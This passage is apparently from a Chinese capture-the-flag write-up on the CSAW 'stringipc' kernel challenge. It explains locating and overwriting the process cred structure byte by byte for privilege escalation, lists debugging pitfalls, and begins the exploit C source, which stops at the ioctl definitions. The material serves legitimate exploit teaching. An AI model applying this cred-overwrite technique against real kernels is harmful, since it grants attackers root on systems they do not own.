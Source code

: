 ```
    kernel_cap_t    cap_ambient;    /* Ambient capability set */
#ifdef CONFIG_KEYS
    unsigned char   jit_keyring;    /* default keyring to attach requested
                     * keys to */
    struct key __rcu *session_keyring; /* keyring inherited over fork */
    struct key  *process_keyring; /* keyring private to this process */
    struct key  *thread_keyring; /* keyring private to this thread */
    struct key  *request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
    void        *security;  /* subjective LSM security */
#endif
    struct user_struct *user;   /* real user ID subscription */
    struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
    struct group_info *group_info;  /* supplementary groups for euid/fsgid */
    struct rcu_head rcu;        /* RCU deletion hook */
};
```

注意点：strncpy_from_user，遇到0就截断了，所以cred写0时需要一字节一字节的写。

#### Exp

编写遇到的一些问题：

（1）传递的buf不能用栈空间，会报错，返回的search地址不对，改用堆。

（2）对这里指针的操作出现错误，导致没有获得正确的cred地址。

```
cred = *(size_t *)(search - 0x8);
real_cred = *(size_t *)(search - 0x10);
```

（3）pid数组定义成int型，pid[0] = 0，uid复制应该是'\x00'，而不是整型0

（4）getuid用成了getpid

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/prctl.h>
#include <unistd.h>

#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE+1
#define CSAW_OPEN_CHANNEL   CSAW_IOCTL_BASE+2
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE+3
#define CSAW_SHRINK_CHANNEL CSAW_IOCTL_BASE+4
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE+5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE+6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE+7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE+8

struct alloc_channel_args{
    size_t buf_size;
    int id;
};

struct shrink_channel_args{
    int id;
    size_t size;
```